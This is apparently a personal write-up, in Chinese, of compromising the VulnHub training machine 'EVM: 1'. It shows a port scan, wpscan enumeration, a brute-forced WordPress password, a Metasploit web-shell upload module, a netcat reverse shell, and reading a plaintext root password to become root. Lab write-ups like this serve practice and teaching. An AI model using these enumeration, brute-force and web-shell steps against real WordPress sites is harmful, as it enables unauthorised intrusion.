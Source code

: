 # EVM: 1

2025.03.03 https://www.vulnhub.com/entry/evm-1,391/

## Ip

192.168.5.39

## Scan

```
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
```

smb 无访问权限，enum4linux-ng 也没枚举出用户。

访问 80 web 发现提示：ou can find me at /wordpress/ im vulnerable webapp :)

查看 wordpress, 发现加载有问题，源码中是加载的http://192.168.56.103 固定了 ip 有一些 js 和 css 加载有问题。

wpscan 先扫描：

```
wpscan --url http://192.168.5.39/wordpress/ -e u,ap,at,tt,cb --plugins-detection mixed
```

扫描到一个用户 c0rrupt3d_brain ，发现几个插件 akismet 4.1.2 、 photo-gallery 1.5.34 、 wp-responsive-thumbnail-slider 1.0 、 wp-vault 0.8.6.6 但是没发现明显的可利用漏洞，先爆破下 c0rrupt3d_brain 的登陆密码，找到用户登陆密码: 24992499 , 虽然得到了密码，但是不能登陆，靶机的有些文件链接设置了 192.168.56.103 的 ip。

这里使用 msf 中的上传 web shell 的 payload 直接用代码上传 web shell:

```
use exploit/unix/webapp/wp_admin_shell_upload
```

将 shell 移交到 kali 的 nc 上，移交后，在/home/root3r 目录中发现了 root 用户的密码，然后 su 切换到 root：

```
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ cat .root_password_ssh.txt
willy26
www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su root
Password:
root@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r# cd /root
root@ubuntu-extermely-vulnerable-m4ch1ine:~# ls
proof.txt
root@ubuntu-extermely-vulnerable-m4ch1ine:~# cat proof.txt
voila you have successfully pwned me :) !!!
:D
```
